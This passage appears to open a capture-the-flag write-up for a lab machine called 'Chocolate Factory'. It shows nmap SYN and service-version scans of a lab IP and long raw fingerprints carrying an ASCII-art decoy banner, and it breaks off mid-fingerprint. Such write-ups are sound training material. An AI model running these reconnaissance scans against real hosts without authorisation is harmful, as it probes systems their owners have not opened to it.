




# Chocolate Factory

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sS -p- 10.10.183.103     
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-08 15:14 EST
Nmap scan report for 10.10.183.103
Host is up (0.079s latency).
Not shown: 65506 closed tcp ports (reset)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
100/tcp open  newacct
101/tcp open  hostname
102/tcp open  iso-tsap
103/tcp open  gppitnp
104/tcp open  acr-nema
105/tcp open  csnet-ns
106/tcp open  pop3pw
107/tcp open  rtelnet
108/tcp open  snagas
109/tcp open  pop2
110/tcp open  pop3
111/tcp open  rpcbind
112/tcp open  mcidas
113/tcp open  ident
114/tcp open  audionews
115/tcp open  sftp
116/tcp open  ansanotify
117/tcp open  uucp-path
118/tcp open  sqlserv
119/tcp open  nntp
120/tcp open  cfdptkt
121/tcp open  erpc
122/tcp open  smakynet
123/tcp open  ntp
124/tcp open  ansatrader
125/tcp open  locus-map

Nmap done: 1 IP address (1 host up) scanned in 113.26 seconds
                                                                      
```

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sSV -p 10-126 10.10.183.103  

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-08 15:26 EST
Stats: 0:02:59 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 79.31% done; ETC: 15:29 (0:00:47 remaining)
Nmap scan report for 10.10.183.103
Host is up (0.056s latency).
Not shown: 88 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
100/tcp open  newacct?
101/tcp open  hostname?
102/tcp open  iso-tsap?
103/tcp open  gppitnp?
104/tcp open  acr-nema?
105/tcp open  csnet-ns?
106/tcp open  pop3pw?
107/tcp open  rtelnet?
108/tcp open  snagas?
109/tcp open  pop2?
110/tcp open  pop3?
111/tcp open  rpcbind?
112/tcp open  mcidas?
113/tcp open  ident?
114/tcp open  audionews?
115/tcp open  sftp?
116/tcp open  ansanotify?
117/tcp open  uucp-path?
118/tcp open  sqlserv?
119/tcp open  nntp?
120/tcp open  cfdptkt?
121/tcp open  erpc?
122/tcp open  smakynet?
123/tcp open  ntp?
124/tcp open  ansatrader?
125/tcp open  locus-map?
9 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port100-TCP:V=7.94%I=7%D=11/8%Time=654BEEF4%P=x86_64-pc-linux-gnu%r(Get
SF:Request,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r\n\x20\x20\x20
SF:\x20___\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.---------------\.\
SF:r\n\x20\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\x20\.\x20\x20_
SF:___\x20___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/
SF:\x20_:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x20\x20\x20\\\\'
SF:\\__\\'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x20\x20\\___\x2
SF:0\\\r\n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/\x20__:
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\\\r\n\
SF:x20\x20\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\_;------------
SF:-----`\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x20\x20\x20\\/\x
SF:20\x20\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\x20\x20\\\|___
SF:___________________;________________\|\r\n\r\nA\x20small\x20hint\x20fro
SF:m\x20Mr\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\x20not\x20here
SF:!\x20;\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augustus\"\x20")%r
SF:(TerminalServerCookie,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r
SF:\n\x20\x20\x20\x20___\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.----
SF:-----------\.\r\n\x20\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\
SF:x20\.\x20\x20____\x20___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20
SF:__\\/\x20__\\/\x20_:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x2
SF:0\x20\x20\\\\'\\__\\'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x
SF:20\x20\\___\x20\\\r\n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x
SF:20__\\/\x20__:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\\\r\n\x20\x20\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\
SF:_;-----------------`\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x2
SF:0\x20\x20\\/\x20\x20\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\
SF:x20\x20\\\|______________________;________________\|\r\n\r\nA\x20small\
SF:x20hint\x20from\x20Mr\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\
SF:x20not\x20here!\x20;\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augu
SF:stus\"\x20");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port101-TCP:V=7.94%I=7%D=11/8%Time=654BEEEA%P=x86_64-pc-linux-gnu%r(NUL
SF:L,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r\n\x20\x20\x20\x20__
SF:_\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.---------------\.\r\n\x2
SF:0\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\x20\.\x20\x20____\x2
SF:0___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/\x20_:
SF:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x20\x20\x20\\\\'\\__\\
SF:'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x20\x20\\___\x20\\\r\
SF:n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/\x20__:\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\\\r\n\x20\x2
SF:0\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\_;-----------------`
SF:\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x20\x20\x20\\/\x20\x20
SF:\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\x20\x20\\\|_________
SF:_____________;________________\|\r\n\r\nA\x20small\x20hint\x20from\x20M
SF:r\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\x20not\x20here!\x20;
SF:\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augustus\"\x20")%r(Gener
SF:icLines,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r\n\x20\x20\x20
SF:\x20___\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.---------------\.\
SF:r\n\x20\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\x20\.\x20\x20_
SF:___\x20___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/
SF:\x20_:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x20\x20\x20\\\\'
SF:\\__\\'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x20\x20\\___\x2
SF:0\\\r\n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/\x20__:
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\\\r\n\
SF:x20\x20\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\_;------------
SF:-----`\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x20\x20\x20\\/\x
SF:20\x20\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\x20\x20\\\|___
SF:___________________;________________\|\r\n\r\nA\x20small\x20hint\x20fro
SF:m\x20Mr\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\x20not\x20here
SF:!\x20;\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augustus\"\x20");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port102-TCP:V=7.94%I=7%D=11/8%Time=654BEF09%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r\n\x
SF:20\x20\x20\x20___\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.--------
SF:-------\.\r\n\x20\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\x20\
SF:.\x20\x20____\x20___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20__\\
SF:/\x20__\\/\x20_:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x20\x2
SF:0\x20\\\\'\\__\\'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x20\x
SF:20\\___\x20\\\r\n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x20__
SF:\\/\x20__:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\\\r\n\x20\x20\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\_;--
SF:---------------`\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x20\x2
SF:0\x20\\/\x20\x20\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\x20\
SF:x20\\\|______________________;________________\|\r\n\r\nA\x20small\x20h
SF:int\x20from\x20Mr\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\x20n
SF:ot\x20here!\x20;\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augustus
SF:\"\x20")%r(SMBProgNeg,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r
SF:\n\x20\x20\x20\x20___\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.----
SF:-----------\.\r\n\x20\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\
SF:x20\.\x20\x20____\x20___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20
SF:__\\/\x20__\\/\x20_:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x2
SF:0\x20\x20\\\\'\\__\\'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x
SF:20\x20\\___\x20\\\r\n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x
SF:20__\\/\x20__:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\\\r\n\x20\x20\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\
SF:_;-----------------`\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x2
SF:0\x20\x20\\/\x20\x20\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\
SF:x20\x20\\\|______________________;________________\|\r\n\r\nA\x20small\
SF:x20hint\x20from\x20Mr\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\
SF:x20not\x20here!\x20;\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augu
SF:stus\"\x20");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port103-TCP:V=7.94%I=7%D=11/8%Time=654BEF1A%P=x86_64-pc-linux-gnu%r(SSL
SF:SessionReq,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r\n\x20\x20\
SF:x20\x20___\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.---------------
SF:\.\r\n\x20\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\x20\.\x20\x
SF:20____\x20___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20__\\/\x20__
SF:\\/\x20_:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x20\x20\x20\\
SF:\\'\\__\\'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x20\x20\\___
SF:\x20\\\r\n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/\x20
SF:__:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\\\r
SF:\n\x20\x20\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\_;---------
SF:--------`\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x20\x20\x20\\
SF:/\x20\x20\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\x20\x20\\\|
SF:______________________;________________\|\r\n\r\nA\x20small\x20hint\x20
SF:from\x20Mr\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\x20not\x20h
SF:ere!\x20;\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augustus\"\x20"
SF:)%r(TLSSessionReq,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r\n\x
SF:20\x20\x20\x20___\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.--------
SF:-------\.\r\n\x20\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\x20\
SF:.\x20\x20____\x20___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20__\\
SF:/\x20__\\/\x20_:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x20\x2
SF:0\x20\\\\'\\__\\'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x20\x
SF:20\\___\x20\\\r\n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x20__
SF:\\/\x20__:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\\\r\n\x20\x20\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\_;--
SF:---------------`\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x20\x2
SF:0\x20\\/\x20\x20\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\x20\
SF:x20\\\|______________________;________________\|\r\n\r\nA\x20small\x20h
SF:int\x20from\x20Mr\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\x20n
SF:ot\x20here!\x20;\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augustus
SF:\"\x20");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port104-TCP:V=7.94%I=7%D=11/8%Time=654BEEEA%P=x86_64-pc-linux-gnu%r(NUL
SF:L,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r\n\x20\x20\x20\x20__
SF:_\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.---------------\.\r\n\x2
SF:0\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\x20\.\x20\x20____\x2
SF:0___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/\x20_:
SF:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x20\x20\x20\\\\'\\__\\
SF:'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x20\x20\\___\x20\\\r\
SF:n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/\x20__:\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\\\r\n\x20\x2
SF:0\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\_;-----------------`
SF:\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x20\x20\x20\\/\x20\x20
SF:\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\x20\x20\\\|_________
SF:_____________;________________\|\r\n\r\nA\x20small\x20hint\x20from\x20M
SF:r\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\x20not\x20here!\x20;
SF:\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augustus\"\x20")%r(Gener
SF:icLines,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r\n\x20\x20\x20
SF:\x20___\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.---------------\.\
SF:r\n\x20\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\x20\.\x20\x20_
SF:___\x20___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/
SF:\x20_:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x20\x20\x20\\\\'
SF:\\__\\'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x20\x20\\___\x2
SF:0\\\r\n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/\x20__:
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\\\r\n\
SF:x20\x20\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\_;------------
SF:-----`\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x20\x20\x20\\/\x
SF:20\x20\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\x20\x20\\\|___
SF:___________________;________________\|\r\n\r\nA\x20small\x20hint\x20fro
SF:m\x20Mr\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\x20not\x20here
SF:!\x20;\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augustus\"\x20");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port105-TCP:V=7.94%I=7%D=11/8%Time=654BEEF4%P=x86_64-pc-linux-gnu%r(Get
SF:Request,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r\n\x20\x20\x20
SF:\x20___\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.---------------\.\
SF:r\n\x20\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\x20\.\x20\x20_
SF:___\x20___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/
SF:\x20_:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x20\x20\x20\\\\'
SF:\\__\\'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x20\x20\\___\x2
SF:0\\\r\n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/\x20__:
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\\\r\n\
SF:x20\x20\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\_;------------
SF:-----`\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x20\x20\x20\\/\x
SF:20\x20\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\x20\x20\\\|___
SF:___________________;________________\|\r\n\r\nA\x20small\x20hint\x20fro
SF:m\x20Mr\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\x20not\x20here
SF:!\x20;\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augustus\"\x20")%r
SF:(HTTPOptions,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r\n\x20\x2
SF:0\x20\x20___\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.-------------
SF:--\.\r\n\x20\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\x20\.\x20
SF:\x20____\x20___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20__\\/\x20
SF:__\\/\x20_:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x20\x20\x20
SF:\\\\'\\__\\'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x20\x20\\_
SF:__\x20\\\r\n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/\x
SF:20__:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\\
SF:\r\n\x20\x20\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\_;-------
SF:----------`\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x20\x20\x20
SF:\\/\x20\x20\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\x20\x20\\
SF:\|______________________;________________\|\r\n\r\nA\x20small\x20hint\x
SF:20from\x20Mr\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\x20not\x2
SF:0here!\x20;\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augustus\"\x2
SF:0");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port106-TCP:V=7.94%I=7%D=11/8%Time=654BEF29%P=x86_64-pc-linux-gnu%r(Ker
SF:beros,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r\n\x20\x20\x20\x
SF:20___\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.---------------\.\r\
SF:n\x20\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\x20\.\x20\x20___
SF:_\x20___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/\x
SF:20_:\\\x20\x20\|:\.\x20\x20\\\x20\x20\\___\x20\\\r\n\x20\x20\x20\\\\'\\
SF:__\\'\\__\\'\\__\\'\\__\\'\\_`\.__\|\x20\x20`\.\x20\\\x20\x20\\___\x20\
SF:\\r\n\x20\x20\x20\x20\\\\/\x20__\\/\x20__\\/\x20__\\/\x20__\\/\x20__:\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\\\r\n\x2
SF:0\x20\x20\x20\x20\\\\'\\__\\'\\__\\'\\__\\\x20\\__\\'\\_;--------------
SF:---`\r\n\x20\x20\x20\x20\x20\x20\\\\/\x20\x20\x20\\/\x20\x20\x20\\/\x20
SF:\x20\x20\\/\x20\x20\x20\\/\x20:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\|\r\n\x20\x20\x20\x20\x20\x20\x20\\\|_____
SF:_________________;________________\|\r\n\r\nA\x20small\x20hint\x20from\
SF:x20Mr\.Wonka\x20:\x20Look\x20somewhere\x20else,\x20its\x20not\x20here!\
SF:x20;\)\x20\r\nI\x20hope\x20you\x20wont\x20drown\x20Augustus\"\x20")%r(L
SF:ANDesk-RC,20F,"\"Welcome\x20to\x20chocolate\x20room!!\x20\r\n\x20\x20\x
SF:20\x20___\x20\x20___\x20\x20___\x20\x20___\x20\x20___\.---------------\
SF:.\r\n\x20\x20\.'\\__\\'\\__\\'\\__\\'\\__\\'\\__,`\x20\x20\x20\.\x20\x2
SF:0____\x20___\x20\\\r\n\x20\x20\\\|\\/\x20__\\/\x20__\\/\x20__\\/\x20__\
